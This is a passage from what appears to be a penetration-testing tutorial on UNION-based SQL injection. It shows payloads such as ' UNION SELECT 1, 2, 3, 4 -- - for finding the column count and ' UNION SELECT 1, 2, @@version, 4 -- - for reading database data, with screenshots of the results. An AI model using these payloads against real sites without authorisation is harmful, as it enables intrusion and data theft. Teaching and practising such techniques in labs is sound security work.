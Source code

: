


## UNION.
The other method is to attempt a Union injection with a different number of columns until we successfully get the results back. The first method [ORDER BY](#order-by) always returns the results until 
we hit an error, while __this method always gives an error until we get a success__.

```sql
' UNION SELECT 1 -- -
```
> RESULT: We get an error because the database has't got 1 column.
<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/0e3b8b42-d50e-4400-9271-c135afb52f71" width="550" alt="Sublime's custom image"/>
</p>

```sql
' UNION SELECT 1, 2, 3, 4 -- -
```
> RESULT: We don't get an error because the database has EXACTLY 4 columns.
<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/55c69c71-865c-4449-99a1-13ea450696c9" width="550" alt="Sublime's custom image"/>
</p>


```sql
' UNION SELECT 1, 2, 3, 4, 5 -- -
```
> RESULT: We get an error because the database hasn't got 5 columns.
<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/ecd7f0b0-6fe8-4876-9920-47335155ce83" width="550" alt="Sublime's custom image"/>
</p>

-------------------

### Location of Injection

While __a query may return multiple columns, the web application may only display some of them__. So, __if we inject our query in a column that is not printed on the page, 
we will not get its output__. This is why we need to determine which columns are printed to the page, to determine where to place our injection. In the previous example, 
while the injected query returned 1, 2, 3, and 4, we saw only 2, 3, and 4 displayed back to us on the page as the output data. <br />
It is very common that not every column will be displayed back to the user. For example, the ID field is often used to link different tables together, but the user doesn't need to see it. 
> This tells us that columns 2 and 3, and 4 are printed to place our injection in any of them. We cannot place our injection at the beginning, or its output will not be printed.

To test that we can get actual data from the database 'rather than just numbers,' we can use the `@@version` SQL query as a test and place it in an outputed column and see the result:
```sql
' UNION SELECT 1, 2, @@version, 4 -- -
```
